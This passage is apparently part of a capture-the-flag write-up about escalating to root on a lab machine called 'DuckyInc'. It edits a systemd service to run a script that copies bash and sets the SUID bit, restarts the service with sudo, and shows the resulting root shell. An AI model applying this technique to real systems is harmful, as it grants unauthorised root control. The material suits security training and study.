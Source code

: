 After editing

```bash
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash /tmp/ro.sh
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

Now lets create our exploit

/tmp/ro.sh

```bash
#!/bin/bash
cp /bin/bash /tmp/sh
chmod +s /tmp/sh
```

We first copy bash to /tmp and add suid bit. Since the service runs as root, root sets SUID to /tmp/bash and we can get root bash shell.

Since we edited the service we need to reload daemon and after restarting the script executes as root.

```bash
server-admin@duckyinc:~$ sudo /bin/systemctl daemon-reload 
server-admin@duckyinc:~$ sudo /bin/systemctl restart duckyinc.service
```

Now if we look at tmp

```bash
server-admin@duckyinc:~$ ls -l /tmp
total 2188
-rwxrwxr-x 1 server-admin server-admin      50 Oct 17 17:09 ro.sh
-rwsr-sr-x 1 root         root         1113504 Oct 17 17:09 sh
drwx------ 3 root         root            4096 Oct 17 16:33 systemd-private-1a2c5253ae074f08a28c3cbbb2b39b65-systemd-resolved.service-SrErBW
drwx------ 3 root         root            4096 Oct 17 16:33 systemd-private-1a2c5253ae074f08a28c3cbbb2b39b65-systemd-timesyncd.service-RhrpKF
```

```bash
$ /tmp/sh -p # p to preserve euid
sh-4.4# 
```
